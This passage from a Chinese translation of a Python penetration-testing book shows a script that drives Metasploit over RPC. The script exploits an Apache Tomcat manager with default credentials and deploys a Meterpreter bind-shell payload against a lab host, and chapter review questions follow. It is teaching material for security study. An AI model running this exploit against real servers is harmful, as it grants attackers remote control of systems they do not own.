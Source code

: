 与我们对`python-msfprc`所做的类似，通过这个模块，我们还可以连接到控制台并像在 msfconsole 中一样运行命令。我们可以通过两种方式来做到这一点。第一个是在激活漏洞后使用扫描对象。第二种方法是使用 console 对象执行命令，执行方式与我们与 msfconsole 交互时相同。

您可以在`pyMetasploit`文件夹的`exploit_tomcat_maanger.py`文件中找到以下代码：

```py
from Metasploit.msfrpc import MsfRpcClient
from Metasploit.msfconsole import MsfRpcConsole

client = MsfRpcClient('password', user='msf')

exploits = client.modules.exploits
for exploit in exploits:
    print("\t%s" % exploit)

scan = client.modules.use('exploits', 'multi/http/tomcat_mgr_deploy')
scan.description
scan.required
scan['RHOST'] = '192.168.100.2'
scan['RPORT'] = '8180'
scan['PATH'] = '/manager'
scan['HttpUsername'] = 'tomcat'
scan['HttpPassword'] = 'tomcat'
scan['payload'] = 'java/meterpreter/bind_tcp'
print(scan.execute())

console = MsfRpcConsole(client)
console.execute('use exploit/multi/http/tomcat_mgr_deploy')
console.execute('set RHOST 192.168.100.2')
console.execute('set RPORT 8180')
console.execute('set PATH /manager')
console.execute('set HttpUsername tomcat')
console.execute('set HttpPassword tomcat')
console.execute('set payload java/meterpreter/bind_tcp')
console.execute('run')
```

# 总结

本章的目标之一是了解 Metasploit 框架作为利用漏洞的工具，以及如何在 Python 中以编程方式与 Metasploit 控制台交互。使用诸如 Python msfrpc 和 pyMetasploit 之类的模块，可以自动执行模块并利用 Metasploit 框架中的漏洞。

在下一个[章节](10.html)中，我们将探讨我们可以在 Metasploitable 虚拟机中找到的漏洞，以及如何从 Python 模块中连接到漏洞扫描器，如`nessus`和`nexpose`，以提取这些漏洞。

# 问题

1.  在 Metasploit 中与模块交互和执行漏洞利用的接口是什么？
2.  利用 Metasploit 框架开发系统的主要步骤是什么？
3.  使用 Metasploit 框架在客户端和 Metasploit 服务器实例之间交换信息的接口的名称是什么？
4.  generic/shell\u bind\u tcp 和 generic/shell\u reverse\u tcp 之间有什么区别？
5.  我们可以执行哪个命令来连接 msfconsole？
6.  与 msfconsole 实用程序相同，我们需要使用什么函数与框架交互？
7.  使用 Metasploit 框架在客户端和 Metasploit 服务器实例之间交换信息的远程访问接口的名称是什么？
8.  我们如何从 Metasploit 服务器获取所有利用漏洞的列表？
9.  Metasploit 框架中的哪些模块可以访问 tomcat 中的应用管理器，并利用 ApacheTomcat 服务器获取会话计量器？
10.  哪一个是在 tomcat 服务器中执行攻击时建立 MeterMeter 会话的有效负载名称？
